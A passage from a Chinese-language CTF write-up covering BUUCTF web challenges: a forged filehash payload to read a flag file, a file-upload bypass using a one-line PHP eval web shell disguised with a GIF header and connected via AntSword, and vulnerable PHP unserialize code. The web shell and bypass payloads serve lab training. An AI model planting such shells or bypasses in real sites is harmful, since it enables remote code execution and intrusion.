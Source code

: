这样就得到了cookie_secret，然后看一下hint.txt

```
/hints.txt
md5(cookie_secret+md5(filename))
```

payload

```
file?filename=/fllllllllllllag&filehash=3b3b2af99f3ca71d7fce7b9a99247a58
```

![1626092248752](buuweb_page1.assets/1626092248752.png)

## [极客大挑战 2019]Upload

考察：文件上传漏洞以及绕过

测试了一下，php php3 php4 php5 pht都被过滤了，phtml可以上传成功，但是不能包含<?

![1626155643919](buuweb_page1.assets/1626155643919.png)

因此可以使用js的马

```
<script language="php">eval($_REQUEST[1])</script>
```

加上GIF文件头尝试一下

![1626155794345](buuweb_page1.assets/1626155794345.png)

![1626155813198](buuweb_page1.assets/1626155813198.png)

成功！

根据该页面为upload_file.php，所以猜测为upload目录，蚁剑连接即可，flag位于根目录

## [极客大挑战 2019]PHP

知识点:源码泄露，反序列化漏洞

dirsearch扫描一下，发现源码泄露，访问www.zip下载源码

index.php主要代码

```php
<?php
    include 'class.php';
    $select = $_GET['select'];
    $res=unserialize(@$select);
    ?>
```

class.php主要代码

```php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

```